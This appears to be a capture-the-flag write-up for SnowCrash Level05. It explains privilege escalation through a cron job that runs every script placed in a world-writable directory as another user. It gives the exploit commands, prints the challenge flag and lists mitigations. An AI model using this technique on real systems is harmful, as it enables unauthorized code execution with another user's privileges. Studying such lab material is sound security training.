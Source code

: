# CTF Report: SnowCrash Level05

## Summary
Cron job exploitation. A scheduled task runs `/usr/sbin/openarenaserver` as flag05 user every 2 minutes, executing all scripts in `/opt/openarenaserver/` directory.

**Flag:** `viuaaale9huek52boumoomioc`

## Analysis

### Cron Job Discovery
```bash
cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

**Finding:** Cron job runs every 2 minutes as flag05 user.

### Script Analysis
```bash
cat /usr/sbin/openarenaserver
```
```bash
for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

**Key Points:**
- Executes all files in `/opt/openarenaserver/`
- Runs with flag05 privileges
- Deletes files after execution
- 5 second timeout per script

## Exploitation

### Step 1: Test Write Access
```bash
cd /opt/openarenaserver
echo "/usr/bin/whoami > /tmp/hacked" > hacked.sh
chmod +x hacked.sh
```

### Step 2: Create Exploit Script
```bash
echo "getflag > /tmp/flag05_result" > exploit.sh
chmod +x exploit.sh
```

### Step 3: Wait for Cron Execution
```bash
sleep 120
cat /tmp/flag05_result
```

### Result
```
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

## Vulnerability

**Type:** Insecure Cron Job with World-Writable Directory

**Root Cause:** 
- `/opt/openarenaserver/` is writable by level05 user
- Cron job executes any script in this directory as flag05
- No input validation or script verification

**Impact:** Arbitrary code execution with flag05 privileges.

## Mitigation

1. Restrict directory permissions (remove write access for untrusted users)
2. Validate scripts before execution
3. Use whitelist of allowed scripts
4. Run cron jobs with minimum required privileges
5. Implement file integrity monitoring

## Timeline
- Discovered cron job in `/var/mail/level05`
- Analyzed `/usr/sbin/openarenaserver` script
- Placed exploit script in monitored directory
- Waited for scheduled execution
- Successfully captured flag